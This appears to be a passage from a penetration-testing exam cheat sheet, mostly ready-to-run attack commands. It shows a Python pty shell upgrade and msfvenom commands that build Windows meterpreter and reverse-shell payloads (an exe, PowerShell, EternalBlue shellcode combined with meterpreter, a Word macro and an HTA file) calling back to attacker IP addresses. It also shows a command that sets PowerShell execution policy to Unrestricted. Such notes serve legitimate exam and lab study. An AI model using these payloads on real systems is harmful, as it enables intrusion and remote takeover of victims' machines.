 ```sh
python -c 'import pty; pty.spawn("/bin/bash")'
```

### Fully interactive shell

First, run the semi-interactive shell python command, then background the current shell process, run `stty raw -echo` in the terminal which will pass keyboard shortcuts through, then run `fg` to bring netcat back.

## Msfvenom

### Windows exe staged_payload (needs metasploit to catch, **allowed on exam**)

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=5555 -f exe > binary.exe
```

### Powershell

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.119.194 LPORT=5555 -f powershell
```

### Combining payloads

```sh
nasm -f bin eternalblue_x64_kshellcode.asm -o sc_x64_kernel.bin
msfvenom -p windows/x64/meterpreter/reverse_tcp -f raw -o sc_x64_msf.bin LHOST=192.168.254.142 LPORT=4444
cat sc_x64_kernel.bin sc_x64_msf.bin > sc_x64.bin
```


## Windows tips & tricks

### Changing execution policy

```sh
Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
Get-ExecutionPolicy -Scope CurrentUser
```

## Microsoft-word macro payload

First create an `evil.hta` file like so:

```sh
# recommended
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.194 LPORT=80 -f vba-psh > payload.txt
# or
sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f hta-psh -o /var/www/html/evil.hta 
```
